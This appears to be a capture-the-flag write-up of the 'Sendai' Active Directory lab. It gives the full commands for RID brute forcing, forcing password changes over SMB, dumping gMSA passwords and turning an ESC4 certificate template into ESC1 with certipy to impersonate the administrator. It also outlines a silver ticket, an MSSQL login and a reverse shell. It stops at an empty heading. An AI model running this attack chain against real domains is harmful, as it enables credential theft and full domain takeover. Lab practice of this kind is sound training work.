







# Enumeration
Using Rid bruteforce got the users:


Enumerating smb:

Using blank password we get 2 password must change:

Now changing the password:
```
smbpasswd.py sendai.vl/Elliot.Yates:''@10.10.90.42 -newpass aditya123@
```


Using bloodhound:


Now following the path:
```
net rpc group addmem "admsvc" Elliot.Yates -U sendai.vl/Elliot.Yates -S sendai.vl
```
```
gMSADumper.py -u 'Elliot.Yates' -p 'aditya123@' -d 'sendai.vl'
```

Now we can login to evil-winrm


Using privesccheck.ps1:

We get the creds for a user called clifford.davey

Now using certipy:
```
certipy find -u 'clifford.davey' -p 'RFmoB2WplgE_3p' -dc-ip 10.10.90.42 -stdout -vulnerable
```
We find an esc4 vulnerable certificate:

Converting to ESC1 template:
```
certipy template -username 'clifford.davey'@sendai.vl -password RFmoB2WplgE_3p -template SendaiComputer -save-old
```
Now requesting key:
```
certipy req -u 'clifford.davey'@sendai.vl -p RFmoB2WplgE_3p -c 'sendai-DC-CA' -target 'sendai.vl' -template 'SendaiComputer' -upn 'administrator@sendai.vl' -dc-ip 10.10.90.42 -debug
```


# MSSQL Method
Now generating a silver ticket with [[Silver Ticket Attack]]
Using chisel to port forward 1433 to localhost.

Then using the ticket to login to mssql:
```
proxychains mssqlclient.py -k dc.sendai.vl
```
Now getting reverse shell we can execute juicypotato or GodPotato for admin

# Web Server Method